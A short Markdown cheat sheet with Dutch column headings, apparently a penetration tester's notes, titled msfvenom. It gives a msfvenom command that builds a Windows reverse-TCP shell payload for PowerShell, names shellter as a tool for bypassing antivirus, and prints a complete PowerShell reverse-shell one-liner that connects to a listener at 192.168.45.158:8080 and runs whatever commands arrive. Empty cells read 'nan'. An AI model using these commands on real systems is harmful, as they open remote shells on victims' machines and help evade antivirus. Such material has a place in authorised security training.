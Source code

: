 # msfvenom

| Categorie           | Commando                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        | Omschrijving                             | Voorbeeld                         |   Opmerkingen |
|:--------------------|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:-----------------------------------------|:----------------------------------|--------------:|
| Generate PS payload | msf venom -p windows/shell_reverse_tcp LHOST=192.168.50.200 LPORT=443 -f powershell -v sc                                                                                                                                                                                                                                                                                                                                                                                                                                       | Generate a PowerShell compatible payload | nan                               |           nan |
| Use shellter        | shellter                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        | Using shellter for antivirus bypasses    | A option                          |           nan |
| PowerShell oneliner | client = New-Object System.Net.Sockets.TCPClient('192.168.45.158',8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() | Zet er een dollar teken voor             | refer to powershelrev map in Kali |           nan |
